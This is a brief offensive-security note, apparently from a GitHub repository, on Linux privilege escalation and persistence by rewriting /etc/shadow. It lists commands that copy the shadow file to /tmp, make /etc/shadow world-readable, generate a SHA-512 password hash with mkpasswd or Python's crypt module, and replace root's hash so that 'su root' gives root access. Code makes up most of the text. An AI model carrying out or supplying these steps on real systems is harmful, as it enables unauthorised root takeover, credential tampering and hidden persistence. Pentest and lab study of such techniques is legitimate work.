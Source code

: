 # Unix Shell

Nowadays most modern Linux servers and desktops currently are most up-to-date and I can say you'll rarely find it or not. Yet you can use this method as a persistence technique yet it's not OPSEC safe to do so but hey you'll might need it under certain circumstances.

- Backup the shadow file. To clear traces ahead of time.

`$ cp /etc/shadow /tmp/shadow.bak && sudo chmod o+r /etc/shadow`

## Exploit

### Overwrite Password via Hash Digest

#### Mkpasswd

`$ mkpasswd -m sha-512 newpass1234`

#### Python Crypt Module

`$ python -c 'import crypt; print(crypt.crypt("newpass1234", "$6$salt"))'`

Then edit the shadow file `root:<sha512crypt_hash>:17298:0:99999:7:::` replace the old `<sha512crypt_hash>` which starts with $6$ into a new one that was previously generated.

Then try to authenticate and you're root.

`$ su root`

---
## References

- [Linux Privesc Wrong Permissions](https://wixnic.github.io/linux-privesc-wrong-permissions/)

- [Linux Privilege Escalation Writable Passwd File](https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/)